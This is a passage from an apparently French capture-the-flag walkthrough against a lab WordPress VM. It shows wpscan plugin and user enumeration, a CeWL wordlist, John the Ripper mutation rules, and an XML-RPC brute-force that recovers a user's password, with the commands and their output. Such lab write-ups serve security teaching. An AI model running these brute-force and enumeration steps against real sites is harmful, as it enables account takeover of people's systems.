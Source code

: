 ```shellsession
 | [!] The version is out of date, the latest version is 1.7.6
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.223/bull/wp-content/plugins/slideshow-gallery/, status: 200
 |
 | Version: 1.4.6 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.56.223/bull/wp-content/plugins/slideshow-gallery/readme.txt
```

On voit qu'il remonte deux versions possibles pour le plugin `slideshow-gallery`. Une recherche sur exploit-db remonte une vulnérabilité pour la version `1.4.6` mais elle requiert d'être authentifié.

Avec l'option `-e u` de wpscan j'énumère oles utilisateurs :

```
[i] User(s) Identified:

[+] bully
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

Bien. Maintenant l'un des indices indique qu'il faut créer notre wordlist nous même. J'utilise donc `CeWL` pour extraire les mots du seul article du blog :

```bash
docker run -it --rm cewl http://192.168.56.223/bull/index.php/2015/05/ > words.txt
```

Après avoir fait le ménage pour retirer les mots liés à la structure de la page, je demande à `JohnTheRipper` de générer des dérivés des mots de passe :

```bash
john --rules --wordlist=words.txt --stdout > candidates.txt
```

et c'est parti pour le brute-force :

```bash
docker run -v /tmp/:/wordlists/ -it --rm wpscanteam/wpscan --url http://192.168.56.223/bull/ -U bully -P /wordlists/candidates.txt
```

On trouve bien un mot de passe :

```
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - bully / Bighornedbulls                                                                                                                                                                                
All Found                                                                                                                                                                                                         
Progress Time: 00:02:33 <==============================================                                                                                                         > (74 / 237) 31.22%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bully, Password: Bighornedbulls
```
